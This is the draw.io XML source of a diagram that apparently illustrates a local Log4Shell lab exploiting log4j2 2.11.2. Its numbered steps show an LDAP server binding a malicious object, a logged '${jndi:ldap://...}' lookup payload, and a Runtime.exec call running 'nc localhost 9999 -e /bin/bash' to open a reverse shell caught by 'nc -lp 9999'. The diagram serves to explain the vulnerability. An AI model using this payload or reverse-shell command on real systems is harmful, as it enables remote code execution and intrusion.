

The diagram above was exported from draw.io. Its source (the exported page's mxGraphModel, read from the mxfile embedded in the PNG):
<mxGraphModel dx="1102" dy="561" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="qHG8ef42Uh-8sCXiXTGj-26" value="" style="rounded=1;whiteSpace=wrap;html=1;" parent="1" vertex="1">
      <mxGeometry x="20" y="130" width="760" height="780" as="geometry" />
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-5" value="" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="350" y="490" width="420" height="350" as="geometry" />
    </mxCell>
    <mxCell id="qHG8ef42Uh-8sCXiXTGj-2" value="log4j2 2.11.2" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="1" vertex="1">
      <mxGeometry x="360" y="555" width="170" height="30" as="geometry" />
    </mxCell>
    <mxCell id="qHG8ef42Uh-8sCXiXTGj-3" value="&lt;div&gt;&lt;u&gt;logs&lt;/u&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;INFO&amp;nbsp; exploit.v2.Log4j2Lookup - exploit.v2.Exploit@4b8ee4de&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;shape=mxgraph.basic.document;align=left;verticalAlign=top;" parent="1" vertex="1">
      <mxGeometry x="540" y="670" width="220" height="90" as="geometry" />
    </mxCell>
    <mxCell id="qHG8ef42Uh-8sCXiXTGj-12" value="OpenLDAP&lt;br&gt;&lt;div&gt;Listening on localhost:1389&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;" parent="1" vertex="1">
      <mxGeometry x="40" y="220" width="160" height="420" as="geometry" />
    </mxCell>
    <mxCell id="qHG8ef42Uh-8sCXiXTGj-27" value="localhost" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="1" vertex="1">
      <mxGeometry x="50" y="170" width="110" height="30" as="geometry" />
    </mxCell>
    <mxCell id="iy1MPq2FVCWlZtTMLoDb-4" value="1" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;fontSize=14;fontStyle=1;labelBackgroundColor=none;fontColor=#FFFFFF;fillColor=#000000;" parent="1" vertex="1">
      <mxGeometry x="300" y="520" width="30" height="30" as="geometry" />
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-4" value="logger.info(&quot;${jndi:ldap://localhost:389/cn=malicious-exploit,dc=brochain}&quot;);" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
      <mxGeometry x="360" y="594" width="420" height="30" as="geometry" />
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-6" value="2" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;fontSize=14;fontStyle=1;labelBackgroundColor=none;fontColor=#FFFFFF;fillColor=#000000;" vertex="1" parent="1">
      <mxGeometry x="210" y="576" width="30" height="30" as="geometry" />
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-7" value="3" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;fontSize=14;fontStyle=1;labelBackgroundColor=none;fontColor=#FFFFFF;fillColor=#000000;" vertex="1" parent="1">
      <mxGeometry x="500" y="670" width="30" height="30" as="geometry" />
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-1" value="" style="shape=image;verticalLabelPosition=bottom;labelBackgroundColor=default;verticalAlign=top;aspect=fixed;imageAspect=0;image=https://cdn-icons-png.flaticon.com/512/226/226777.png;" vertex="1" parent="1">
      <mxGeometry x="360" y="494" width="52" height="52" as="geometry" />
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-9" value="nc -lp 9999" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="40" y="770" width="160" height="70" as="geometry" />
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-10" value="" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="340" y="214" width="420" height="166" as="geometry" />
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-11" value="" style="shape=image;verticalLabelPosition=bottom;labelBackgroundColor=default;verticalAlign=top;aspect=fixed;imageAspect=0;image=https://cdn-icons-png.flaticon.com/512/226/226777.png;" vertex="1" parent="1">
      <mxGeometry x="350" y="218" width="52" height="52" as="geometry" />
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-12" value="exploit.v2.JNDIBind" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
      <mxGeometry x="350" y="278" width="170" height="30" as="geometry" />
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-13" value="Exploit e = new Exploit();&lt;br&gt;context.bind(&quot;cn=malicious-exploit,dc=brochain&quot;, e);" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
      <mxGeometry x="350" y="308" width="420" height="42" as="geometry" />
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-14" value="" style="endArrow=classic;html=1;rounded=0;" edge="1" parent="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="322" y="278" as="sourcePoint" />
        <mxPoint x="210" y="278" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-15" value="0" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;fontSize=14;fontStyle=1;labelBackgroundColor=none;fontColor=#FFFFFF;fillColor=#000000;" vertex="1" parent="1">
      <mxGeometry x="300" y="239" width="30" height="30" as="geometry" />
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-16" value="" style="shape=image;verticalLabelPosition=bottom;labelBackgroundColor=default;verticalAlign=top;aspect=fixed;imageAspect=0;image=https://mothersruin.com/software/SuspiciousPackage/images/package-icon.png;" vertex="1" parent="1">
      <mxGeometry x="150" y="260" width="48" height="48" as="geometry" />
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-17" value="" style="endArrow=classic;html=1;rounded=0;" edge="1" parent="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="322" y="561.5" as="sourcePoint" />
        <mxPoint x="210" y="561.5" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-18" value="" style="endArrow=classic;html=1;rounded=0;" edge="1" parent="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="220" y="610" as="sourcePoint" />
        <mxPoint x="320" y="610" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-19" value="" style="shape=image;verticalLabelPosition=bottom;labelBackgroundColor=default;verticalAlign=top;aspect=fixed;imageAspect=0;image=https://mothersruin.com/software/SuspiciousPackage/images/package-icon.png;" vertex="1" parent="1">
      <mxGeometry x="312" y="610" width="48" height="48" as="geometry" />
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-20" value="Runtime.getRuntime().exec(&quot;nc localhost 9999 -e /bin/bash&quot;);" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
      <mxGeometry x="360" y="790" width="420" height="30" as="geometry" />
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-21" value="" style="endArrow=classic;html=1;rounded=0;" edge="1" parent="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="322" y="804.5" as="sourcePoint" />
        <mxPoint x="210" y="804.5" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="vKMC9OiRz-_jKN0iEcEp-22" value="4" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;fontSize=14;fontStyle=1;labelBackgroundColor=none;fontColor=#FFFFFF;fillColor=#000000;" vertex="1" parent="1">
      <mxGeometry x="300" y="770" width="30" height="30" as="geometry" />
    </mxCell>
  </root>
</mxGraphModel>